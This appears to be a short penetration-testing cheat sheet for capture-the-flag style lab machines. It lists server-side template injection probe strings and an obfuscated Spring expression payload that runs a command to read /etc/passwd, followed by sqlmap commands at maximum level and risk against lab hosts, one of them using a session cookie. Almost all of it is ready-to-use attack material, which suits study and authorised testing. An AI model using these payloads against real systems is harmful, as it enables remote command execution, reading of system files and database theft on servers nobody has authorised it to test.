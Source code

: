 
### SSTI 

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

> {T(java.lang.System).getenv()}

Get /etc/passwd
> ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}

### sqlmap

--level=5 highest level
--risk=3 highest level 
--batch - run without asking any questions

> sqlmap -u http://10.10.11.170:8080/ --batch

> sqlmap -u http://10.10.11.170:8080/stats?author=woodenk --level=5 --risk=3 --batch

Post enumeration through form fields
> sqlmap -u http://shoppy.htb/login --data="username=field1&password=field2" --level=5 --risk=3 --batch --ignore-code 401 

If you need to login, use cookie session ID:
> sqlmap -u http://shoppy.htb/admin/search-users?username=josh --level=5 --risk=3 --batch --cookie='s%3A6wlGpTIl3xb_IhGVax1wor2aZSOaPrJD.1RdQmA616qiNnLJTf95yXsoiTAAViei4h5vNt6LYZc0'


Enumerate databases
> sqlmap -u http://10.10.11.170:8080 --level=5 --risk=3 --batch --dbs

